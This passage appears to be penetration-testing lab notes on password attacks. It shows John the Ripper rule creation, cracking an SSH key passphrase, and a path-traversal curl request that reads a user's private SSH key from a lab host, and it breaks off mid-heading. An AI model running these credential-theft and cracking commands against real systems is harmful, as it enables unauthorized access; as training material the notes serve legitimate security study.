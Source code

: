 ```
Dave's password list:

Window
rickc137
dave
superdave
megadave
umbrella

Note to myself:
New password policy starting in January 2022. Passwords need 3 numbers, a capital letter and a special character
```
#### Create rule to capitalize each word, append 137, and the !, @, # special characters
```Shell
cat ssh.rule

c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```
#### Use John if the AES-256 cipher is in use
```Shell
cat ssh.rule

[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```
#### Add the named rules to the JtR configuration file
```Shell
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```
#### Crack the hash w/ JtR
```Shell
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```
#### Authenticate w/ RSA key
```Shell
ssh -i id_rsa -p 2222 dave@192.168.50.201
```
### Lab 2
#### Acquire SSH key through LFI
```Shell
curl http://$ip/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/alfred/.ssh/id_rsa
```
#### Change permissions on acquired `id_rsa` file
```Shell
chmod 600 id_rsa
```
#### Use `ssh2john` to transform the key into hash format
```Shell
ssh2john id_rsa > ssh.hash
```
#### Identify hash type
```Shell
hashcat -h | grep -i "ssh"
```
#### Crack the has w/ JtR